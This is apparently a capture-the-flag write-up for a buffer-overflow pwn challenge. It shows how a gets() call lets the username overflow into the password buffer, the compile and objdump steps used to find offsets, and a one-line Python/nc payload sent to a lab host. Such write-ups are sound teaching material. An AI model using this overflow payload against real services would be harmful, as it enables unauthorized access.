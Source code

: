 # Challenge Statement
![image](https://github.com/user-attachments/assets/d1c09fa7-9694-4a49-b2b1-1ff3afad1c95)

Attachment: [pwn1.c](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Attachments/pwn1.c)

# Solution
Analyzing the given code, we see that the `login()` function calls the `print_flag()` function upon successful login.  
The two local buffers are - `char password[100] = "";` and `char username[100] = "";`  

The `login()` function reads the username input using `gets(username)`, which is vulnerable to buffer overflow.  

We also have the credentials given in the code:
![image](https://github.com/user-attachments/assets/486242da-eee2-4267-84a9-bc4639fdfcca)

So, all we have to do is find the memory layout and overflow the **username** buffer, which can be used to overwrite the **password** buffer.  
To do this, we can compile the code and build a local executable.  
```
gcc -fno-stack-protector -z execstack -o challenge pwn1.c
```

Now, we can disassemble the file using the command:
```
objdump -d challenge > disassembly.txt
```
![image](https://github.com/user-attachments/assets/3c0fc1fc-26b9-4672-a75a-ac3e4cd2a9b7)

From the Assembly Code, we can see that a single buffer is used for both the username and the password.  
The username part is from `-0xe0` to `-0x70` and from `-0x70` is the password.  
![image](https://github.com/user-attachments/assets/d55e77e2-a582-4ec3-8f59-a6824677359d)

Thus, the username occupies 0xe0 - 0x70 = 0x70 bytes --> 112 bytes. 
So the payload will be: 
```
python3 -c "print('bytereaper' + '\x00' + 'A'*101 + '5up3rP4zz123Byte')" | nc 10.10.160.254 1337
```
![image](https://github.com/user-attachments/assets/d43219ab-8efe-4fed-9868-e43d0da100b6)
